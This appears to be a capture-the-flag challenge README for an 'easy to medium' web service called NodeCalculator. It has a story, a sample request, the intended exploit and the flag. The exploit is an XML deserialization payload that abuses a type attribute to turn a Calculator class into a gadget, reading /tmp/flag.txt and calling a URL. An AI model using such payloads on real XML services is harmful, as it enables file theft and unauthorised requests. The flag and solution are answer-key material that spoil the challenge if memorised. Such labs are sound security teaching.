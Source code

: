 ## Background

 Author: spipm
 Categories: Webservices
 Difficulty: Easy to Medium

## Technical

This XML service deserializes user input. It has an object field in its class that allows users to enter all objects in scope, and it can be used to get the flag using the Calculator class as a gadget.

## Story

It's a busy day in class. The teacher bot explains that the students need to use the nodecalculator service to calculate their binary distance to the closest leader bot, but the service is still being made. The young bots complain to you, "This doesn't make any sense to me, although to be honest, I didn't make any notes. You're a human, can't you figure out how this service works?"

Can you figure out how to use this service?

Sample request:
(POST request, Content-Type is application/xml)
<Node><location>testing</location></Node>

![Calculator](./calculator.jpg "Calculator") 

## Exploit

```
POST /NodeCalculator/nodeCalc HTTP/1.1
Host: localhost:8080
Content-Type: application/xml
Content-Length: 377

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Node>
<constructor xsi:type="calculator" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<locationA>noxxe</locationA><locationB>/tmp/flag.txt</locationB>
	<serverValidationCheck>http://host/</serverValidationCheck>
</constructor>
<location>testing</location>
</Node>
```

## Flag

brck{Y0u_Pay3d_Att3nt10n_In_Cl4ss}
